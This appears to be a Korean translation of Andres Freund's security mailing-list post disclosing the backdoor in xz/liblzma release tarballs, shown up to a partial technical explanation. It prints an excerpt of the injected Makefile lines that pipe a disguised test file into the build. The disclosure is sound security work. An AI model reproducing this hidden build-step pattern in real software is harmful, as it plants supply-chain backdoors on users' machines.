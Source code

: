 # Openwall post by Andres Freund

### 알림
- 번역에 틀린 표현이 있을 수 있습니다.  
- 번역하기 애매하거나 모호한 내용은 영어 발음을 그대로 빌려 한글로 적었습니다.  
- 의역이 다수 있습니다.
- 개인적인 해석은 괄호와 \*로 표시하였습니다. - (*예시)
- 어색한 해석의 경우 !로 표시하였습니다. - !예시
- 글 중간에 등장하는 '첨부'는 글 최하단에 존재하는 파일을 말합니다.

---

날짜: 2024년 3월 29일 금요일 08:51:26 -0700  
보낸 이: Andres Freund <andres@...razel.de>  
받는 이: oss-security@...ts.openwall.com  
제목: xz/liblzma upstream의 백도어가 ssh 서버를 손상시킵니다.

안녕하세요,

저번 주에 간 데비안 불안정 버전 설치 중 liblzma(xz 패키지의 일부)에 몇가지 이상한 현상(ssh로 로그인하는 데에 많은 CPU를 소모, valgrind 에러)이 있었고, 그에 대한 답을 알아냈습니다:

xz 레포지토리 upstream와 xz tarballs가 백도어로 쓰였습니다.

처음에 저는 데비안 패키지의 손상이라 생각했으나, upstream의 문제로 밝혀졌습니다.

---

### == 손상된 릴리즈 타르볼 ==

백도어의 한 부분은 *배포된 tarballs에만 있습니다*.  
참고로 여기 데비안의 tarball을 임포트한 링크가 있는데, 이는 5.6.0과 5.6.1 tarballs에도 존재합니다.

- https://salsa.debian.org/debian/xz-utils/-/blob/debian/unstable/m4/build-to-host.m4?ref_type=heads#L63

해당 라인은 upstream의 `build-to-host` 소스와 xz의 git에도 *없습니다*.  
그러나 "소스 코드" 링크들을 제외하고, github가 레포지토리 컨텐츠로부터 직접 생성한 것으로 보이는 릴리즈된 upstream의 타르볼에는 존재하였습니다.

- https://github.com/tukaani-project/xz/releases/tag/v5.6.0
- https://github.com/tukaani-project/xz/releases/tag/v5.6.1

이것은 구성의 말미에 실행될 난독화된 스크립트를 주입합니다.  
이 스크립트는 레포지토리의 `test`에 있는 .xz파일들이고, 난독화 되어있습니다.

이 스크립트는 실행되고나서, 몇 가지 선제조건과 일치하면 하단의 코드

```bash
am__test = bad-3-corrupt_lzma2.xz
...
am__test_dir=$(top_srcdir)/tests/files/$(am__test)
...
sed rpath $(am__test_dir) | $(am__dist_setup) >/dev/null 2>&1
```

를 포함하기위해 `$builddir/src/liblzma/Makefile`를 수정합니다.
